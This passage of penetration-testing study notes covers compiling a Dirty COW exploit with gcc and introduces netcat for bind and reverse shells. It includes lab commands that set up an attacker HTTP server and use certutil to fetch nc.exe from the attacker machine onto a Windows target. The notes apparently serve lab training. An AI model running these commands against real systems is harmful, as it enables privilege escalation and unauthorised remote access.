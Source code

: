* Compile the `C` exploit
  * check for comments in the code regarding the compilation commands to compile it successfully

```bash
# Compile with
gcc -pthread 40839.c -o dirty_exploit -lcrypt
```

## Bind & Reverse [Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells)

### [Netcat](broken-reference)

**`nc`** - a network utility used for a variety of tasks associated with TCP/UDP.

* **Client mode** - used for connection to any TCP/UDP port or to a listener
* **Server Mode** - used as a listener for connection from clients on a specific port

Functionalities:

* open TCP connections, listen on TCP or UDP ports
* Banner grabbing, Port scanning, Files transferring
* Bind/Reverse shells
* 📌 [Hacking with Netcat](https://www.hackingtutorials.org/networking/hacking-with-netcat-part-1-the-basics/)

```bash
# Debian based distro - install
sudo apt update && sudo apt install -y netcat
```

> 🔬 Some HFS Lab commands

```bash
nc <TARGET_IP> <TARGET_PORT>
nc -nv 10.2.23.227 80 #best and simple combination
# -n = no DNS resolution
# -v = verbose

nc -nvu 10.2.23.227 445
# -u = UDP port
```

**Setup a listener**:

* Transfer `nc.exe` to the windows target

```bash
# Attacker machine
ip -br -c a
	10.10.24.4/24
cd /usr/share/windows-binaries/
python -m SimpleHTTPServer 80


# Target machine
cd Desktop
certutil -urlcache -f http://10.10.24.4/nc.exe nc.exe
```
